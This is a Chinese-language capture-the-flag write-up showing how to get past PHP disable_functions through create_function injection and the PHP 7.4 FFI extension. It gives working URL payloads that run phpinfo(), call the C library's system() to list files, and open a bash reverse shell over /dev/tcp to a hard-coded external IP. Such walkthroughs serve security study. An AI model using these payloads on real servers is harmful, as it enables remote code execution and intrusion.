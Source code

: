 很有可能是题目设置了disable_functions，我们执行一下phpinfo()看看：

```php
/?fighter=create_function&fights=&invincibly=;}phpinfo();/*
```

发现果然用disable_functions禁用了很多函数：

![image-20211127001659799](image/命令执行/image-20211127001659799.png)

根据题目名字的描述，应该是让我们使用PHP 7.4 的FFI绕过disabled_function，并且我们在phpinfo中也看到

FFI处于enable状态：

![image-20211127001729303](image/命令执行/image-20211127001729303.png)

**（一）利用FFI调用C库的system函数**

我们首先尝试调用C库的system函数：

```php
/?fighter=create_function&fights=&invincibly=;}$ffi = FFI::cdef("int system(const char *command);");$ffi->system("ls / > /tmp/res.txt");echo file_get_contents("/tmp/res.txt");/*
```

C库的system函数执行是没有回显的，所以需要将执行结果写入到tmp等有权限的目录中，最后再使用`echo file_get_contents("/tmp/res.txt");`查看执行结果即可。

但是这道题执行后却发现有任何结果，可能是我们没有写文件的权限。尝试反弹shell：

```php
/?fighter=create_function&fights=&invincibly=;}$ffi = FFI::cdef("int system(const char *command);");$ffi->system('bash -c "bash -i >& /dev/tcp/119.91.82.192/4444 0>&1"')/*
```
